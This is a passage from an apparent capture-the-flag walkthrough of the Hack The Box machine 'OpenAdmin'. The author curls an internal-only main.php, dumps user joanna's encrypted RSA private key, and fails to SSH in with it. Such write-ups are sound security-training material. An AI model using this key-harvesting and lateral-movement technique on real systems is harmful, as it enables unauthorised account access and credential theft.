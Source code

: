 So we cannot change the config to allow our attacking machine access to this website, we will have to rely on `curl` to talk to this website. First I struggled a lot with trying to send a `POST` request to submit a form to the `index.php` file. Alternatively I ran through the source code one more time and realized I can just call the `main.php` file directly.

```bash
jimmy@openadmin:~$ curl http://127.0.0.1:52846/main.php
<pre>-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
/U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
</pre><html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
jimmy@openadmin:~$
```

And BINGO, we have `joanne`'s RSA Private Key!

## Joanna

Let's try and ssh into `joanna`'s account via the RSA key.

```bash
root@kali:~# ssh joanna@10.10.10.171 -i ~/HTB/machines/OpenAdmin/key
Enter passphrase for key '/root/HTB/machines/OpenAdmin/key':
Enter passphrase for key '/root/HTB/machines/OpenAdmin/key':
Enter passphrase for key '/root/HTB/machines/OpenAdmin/key':
joanna@10.10.10.171's password:
Permission denied, please try again.
joanna@10.10.10.171's password:
fPermission denied, please try again.
joanna@10.10.10.171's password:
joanna@10.10.10.171: Permission denied (publickey,password).
root@kali:~#
```
